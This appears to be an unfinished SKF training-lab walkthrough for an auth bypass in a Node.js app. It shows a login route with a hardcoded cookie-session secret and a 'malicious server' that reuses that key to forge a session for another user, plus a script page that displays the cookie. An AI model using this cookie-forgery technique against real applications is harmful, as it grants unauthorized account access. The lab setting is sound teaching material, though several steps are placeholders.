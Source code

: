 # KBID xxx - Auth-bypass

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

The application suggests we login with admin/admin as username/password.

PRINTSCREEN PLACEHOLDER

Once we login we see an API key.

PRINTSCREEN PLACEHOLDER

Let's have a look at the source code:

```javascript
app.all("/login", (req, res) => {
  const sql = "SELECT * FROM users WHERE username = ? AND password = ?";
  const api = "SELECT * FROM preferences WHERE UserId = ?";
  if (req.method === "POST") {
    db.get(sql, [req.body.username, req.body.password], (err, row) => {
      if (row) {
        req.session.userId = row.UserId;
        req.session.secret = "e5ac-4ebf-03e5-9e29-a3f562e10b22";
        req.session.loggedIn = true;
        db.get(api, [req.session.userId], (err, row) => {
          res.render("home.ejs", { api: row.API_key });
        });
      } else {
        res.render("index.ejs");
      }
    });
  } else {
    db.get(api, [req.session.userId], (err, row) => {
      res.render("home.ejs", { api: row.API_key });
    });
  }
});
```

We can see the cookie session secret is exposed, now we can try to recreate this application cookie implementation to be able to recreate a cookie to bypass the authentication.

## Exploitation

We can start building our malicious server.

```javascript
const cookieSession = require("cookie-session");
const express = require("express");
const cookieParser = require("cookie-parser");
const app = express();

app.use(express.static(__dirname));
app.use(cookieParser());
app.use(
  cookieSession({
    name: "session",
    keys: ["e5ac-4ebf-03e5-9e29-a3f562e10b22"],
    httpOnly: false,
    maxAge: 86400000,
  })
);

app.get("", (req, res) => {
  req.session.userId = 2;
  req.session.secret = "e5ac-4ebf-03e5-9e29-a3f562e10b22";
  req.session.loggedIn = true;
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be nodeJs express.

```text
$ npm install express ejs cookie-session cookie-parser
```

Save the following snippet code into /views/evil.js

```html
<p>The newly created cookie for doing the bypass:</p>
<script>
  alert(document.cookie);
</script>
```

We are ready to start our server:

```text
$ node evil_server.js
```

PRINTSCREEN PLACEHOLDER

Now we can serve our malicious js file to the application

```text
http://localhost:5000/#xxxxhttp://localhost:1337
```

PRINTSCREEN PLACEHOLDER

## Additional sources

https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html
